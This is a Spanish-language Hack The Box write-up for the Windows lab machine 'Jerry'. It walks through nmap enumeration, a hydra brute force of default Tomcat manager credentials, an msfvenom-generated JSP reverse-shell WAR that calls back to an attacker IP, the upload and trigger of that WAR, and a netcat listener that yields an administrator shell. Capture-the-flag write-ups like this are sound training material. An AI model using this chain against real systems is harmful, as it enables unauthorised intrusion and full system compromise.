# Hack The Box — Jerry

| OS | Difficulty | Techniques |
|---|---|---|
| Windows | Easy | Default credentials brute force (hydra), malicious WAR upload on Tomcat |

## Introducción


## Enumeración

Al usar nmap vemos que el único servicio que esta corriendo se sitúa en el puerto 8080.

```bash
nmap -sS 10.129.136.9
```

Al tirar de mas opciones del nmap podemos ver que lo que esta corriendo es un Apache Tomcat con la **versión 7.0.88**


## Pre-Explotación

Al ser un Apache Tomcat para acceder al html hay que hacerlo a través del manager y nos encontramos con una contraseña

```
http://10.129.136.9:8080/manager/html
```

Buscamos un diccionario de contraseñas default y lo lanzamos con hydra

```bash
hydra -C tomCatDict.txt -f -V 10.129.136.9 -s 8080 http-get /manager/html
```

Hemos conseguido acceso al sitio web

```
[8080][http-get] host: 10.129.136.9   login: tomcat   password: <redacted>
```

Comprobamos que funcione → tomcat:<redacted>

```bash
curl -v -u tomcat:<redacted> http://10.129.136.9:8080/manager/html
```
## Explotación

Veo que hay un sitio donde hacer un File Upload con archivos war


Genero un payload con msfvenom

```bash
msfvenom -p java/jsp_shell_reverse_tcp \
    LHOST=10.10.15.1 LPORT=4242 \
    -f war -o shell.war
```

Importante al archivo que hay que apuntar es al jsp

```bash
unzip -l shell.war
```

Subimos el archivo


Ejecutamos el script malicioso

```bash
curl http://10.129.136.9:8080/shell/xhcuwenepptzbum.jsp
```

Nos ponemos a escuchar con rlwrap netcat -lvnp 4242 una aplicación diseñada para warp

```bash
rlwrap nc -lvnp 4242
```

## Post-Explotación

Veo que usuario que tengo y tengo el usuario de máxima autoridad dentro de Windows

```bash
whoami
```

****PWNED!****
